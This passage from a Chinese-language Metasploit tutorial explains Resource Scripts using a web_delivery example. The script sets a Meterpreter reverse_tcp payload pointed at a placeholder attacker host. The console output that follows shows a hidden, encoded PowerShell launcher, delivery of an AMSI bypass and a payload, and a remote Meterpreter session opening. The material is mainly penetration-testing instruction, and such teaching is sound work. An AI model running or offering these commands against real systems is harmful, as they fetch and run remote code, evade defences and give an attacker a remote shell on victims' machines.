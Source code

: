 > 注：使用 -d 参数指定目录，且 -f 参数中没有使用通配符，这将会扫描文件内容，对内容进行匹配。

## Resource Scripts

Resource Scripts 为在 Metasploit 中自动执行重复任务提供了一种简单的方法。

resource 命令将执行位于文本文件内的 Meterpreter 指令。每行包含一个条目，resource 将按顺序执行每一行。这可以帮助自动执行用户执行的重复操作。

脚本文件内容：

```console
root@kali:~# cat web_delivery.txt
use exploit/multi/script/web_delivery
set target 2
set payload windows/x64/meterpreter/reverse_tcp
set srvhost <atk_ip>
set lhost <lhost>
set lport 4444
run

```

使用 resource 命令运行脚本：

```console
msf6 > resource web_delivery.txt
[*] Processing /home/kali/Desktop/web_delivery.txt for ERB directives.
resource (/home/kali/Desktop/web_delivery.txt)> use exploit/multi/script/web_delivery
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
resource (/home/kali/Desktop/web_delivery.txt)> set target 2
target => 2
resource (/home/kali/Desktop/web_delivery.txt)> set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
resource (/home/kali/Desktop/web_delivery.txt)> set srvhost <atk_ip>
srvhost => <atk_ip>
resource (/home/kali/Desktop/web_delivery.txt)> set lhost <lhost>
lhost => <lhost>
resource (/home/kali/Desktop/web_delivery.txt)> set lport 4444
lport => 4444
resource (/home/kali/Desktop/web_delivery.txt)> run
[*] Exploit running as background job 12.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on <lhost>:4444
[*] Using URL: http://<atk_ip>:8080/1Ep9ma
[*] Server started.
[*] Run the following command on the target machine:
msf6 exploit(multi/script/web_delivery) > powershell.exe -nop -w hidden -e WwBOAGUAdAA...hACcAQApADsA

msf6 exploit(multi/script/web_delivery) >

[*] 192.168.70.128   web_delivery - Delivering AMSI Bypass (1391 bytes)
[*] 192.168.70.128   web_delivery - Delivering Payload (3693 bytes)
[*] Sending stage (200774 bytes) to xx.xx.xx.xx
[*] Meterpreter session 1 opened (<lhost>:4444 -> xx.xx.xx.xx:49772) at 2023-03-13 08:42:18 -0400

```
